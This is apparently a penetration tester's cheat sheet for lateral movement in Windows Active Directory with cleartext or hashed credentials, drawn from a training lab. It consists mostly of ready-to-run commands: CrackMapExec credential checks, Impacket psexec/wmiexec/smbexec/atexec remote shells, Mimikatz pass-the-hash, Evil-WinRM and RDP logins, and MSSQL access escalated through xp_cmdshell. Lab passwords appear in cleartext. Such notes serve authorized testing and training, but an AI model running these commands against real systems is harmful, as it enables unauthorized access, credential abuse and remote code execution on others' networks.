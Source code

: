 # Cleartext password

## CrackMapExec Validating the Credentials with CrackMapExec
```
$ crackmapexec smb <ip_range> -u <user> -p <password> -d <domain>
$ crackmapexec smb <ip_range> -u <user> -p <password> --local-auth
```

## interactive-shell
**Psexec.py [https://github.com/SecureAuthCorp/impacket/blob/master/examples/psexec.py]**
One of the most useful tools in the Impacket suite is psexec.py. Psexec.py is a clone of the Sysinternals psexec executable, but works slightly differently from the original. The tool creates a remote service by uploading a randomly-named executable to the ADMIN$ share on the target host. It then registers the service via RPC and the Windows Service Control Manager. Once established, communication happens over a named pipe, providing an interactive remote shell as SYSTEM on the victim host.

To connect to a host with psexec.py, we need credentials for a user with local administrator privileges.

```
$ psexec.py <domain>/<user>:<password>@<ip>
```

**Mimikatz**
```
> kerberos::hash /password:lucky7

> mimikatz.exe
# privilege::debug 
# sekurlsa::pth /user:<user> /domain:<domain> /ntlm:<hash>
```

## pseudo-shell (file write and read)
### Impacket Toolkit
**Atexec.py [https://github.com/fortra/impacket/blob/master/examples/atexec.py]**
```
$ atexec.py <domain>/<user>:<password>@<ip> "command" 
```

**Smbexec.py [https://github.com/fortra/impacket/blob/master/examples/smbexec.py]**
```
$ smbexec.py <domain>/<user>:<password>@<ip>
```

**Wmiexec.py [https://github.com/SecureAuthCorp/impacket/blob/master/examples/wmiexec.py]**
Wmiexec.py utilizes a semi-interactive shell where commands are executed through Windows Management Instrumentation. It does not drop any files or executables on the target host and generates fewer logs than other modules. After connecting, it runs as the local admin user we connected with (this can be less obvious to someone hunting for an intrusion than seeing SYSTEM executing many commands). This is a more stealthy approach to execution on hosts than other tools, but would still likely be caught by most modern anti-virus and EDR systems. We will use the same account as with psexec.py to access the host.
```
$ wmiexec.py <domain>/<user>:<password>@<ip>
```

**Dcomexec.py [https://github.com/fortra/impacket/blob/master/examples/dcomexec.py]**
```
$ dcomexec.py <domain>/<user>:<password>@<ip>
```

**CrackMapExec**
```
$ crackmapexec smb <ip_range> -u <user> -p < password> -d <domain>
$ crackmapexec smb <ip_range> -u <user> -p < password> -local-auth
```

## WinRM
**Enumerating the Remote Management Users Group**
```
Get-NetLocalGroupMember -ComputerName ACADEMY-EA-MS01 -GroupName "Remote Management Users"
```

**Using the Cypher Query in BloodHound**
```
MATCH p1=shortestPath((u1:User)-[r1:MemberOf*1..]->(g1:Group)) MATCH p2=(u1)-[:CanPSRemote*1..]->(c:Computer) RETURN p2
```

**Establishing WinRM Session from Windows**
```
$password = ConvertTo-SecureString "Klmcargo2" -AsPlainText -Force
$cred = new-object System.Management.Automation.PSCredential ("INLANEFREIGHT\forend", $password)
Enter-PSSession -ComputerName ACADEMY-EA-DB01 -Credential $cred
```

**Connecting to a Target with Evil-WinRM and Valid Credentials**
```
$ evil-winrm -i <ip> -u <user> -p <password>
```

## RDP
**Enumerating the Remote Desktop Users Group**
```
Get-NetLocalGroupMember -ComputerName ACADEMY-EA-MS01 -GroupName "Remote Desktop Users"
```

**Checking the Domain Users Group's Local Admin & Execution Rights using BloodHound**
If we gain control over a user through an attack such as LLMNR/NBT-NS Response Spoofing or Kerberoasting, we can search for the username in BloodHound to check what type of remote access rights they have either directly or inherited via group membership under Execution Rights on the Node Info tab.

We could also check the Analysis tab and run the pre-built queries Find Workstations where Domain Users can RDP or Find Servers where Domain Users can RDP

```
$ xfreerdp/u:<user> /d:<domain> /p:<password>/v:<ip>
```

## SMB
```
$ smbclient.py <domain>/<user>:<password>@<ip>
```

## MSSQL
```
$ crackmapexec mssql <ip_range> -u <user> -p <password>
$ mssqlclient.py -windows-auth <domain>/<user>:<password>@<ip>
$ mssqlclient.py <domain>/<user>:<password>@<ip>
```

More often than not, we will encounter SQL servers in the environments we face. It is common to find user and service accounts set up with sysadmin privileges on a given SQL server instance. We may obtain credentials for an account with this access via Kerberoasting (common) or others such as LLMNR/NBT-NS Response Spoofing or password spraying. Another way that you may find SQL server credentials is using the tool Snaffler to find web.config or other types of configuration files that contain SQL server connection strings.

BloodHound, once again, is a great bet for finding this type of access via the SQLAdmin edge. We can check for SQL Admin Rights in the Node Info tab for a given user or use this custom Cypher query to search:

**Using a Custom Cypher Query to Check for SQL Admin Rights in BloodHound**
```
MATCH p1=shortestPath((u1:User)-[r1:MemberOf*1..]->(g1:Group)) MATCH p2=(u1)-[:SQLAdmin*1..]->(c:Computer) RETURN p2
```

**Enumerating MSSQL Instances with PowerUpSQL**
```
Import-Module .\PowerUpSQL.ps1
Get-SQLInstanceDomain
```

```
Get-SQLQuery -Verbose -Instance "172.16.5.150,1433" -username "inlanefreight\damundsen" -password "SQL1234!" -query 'Select @@version'
```

### Running mssqlclient.py Against the Target
```
$ mssqlclient.py INLANEFREIGHT/DAMUNDSEN@172.16.5.150 -windows-auth
$ mssqlclient.py INLANEFREIGHT/DAMUNDSEN@172.16.5.150
```

We could then choose enable_xp_cmdshell to enable the xp_cmdshell stored procedure which allows for one to execute operating system commands via the database if the account in question has the proper access rights.
**Choosing enable_xp_cmdshell**
```
enable_xp_cmdshell
```

```
xp_cmdshell whoami /priv
```
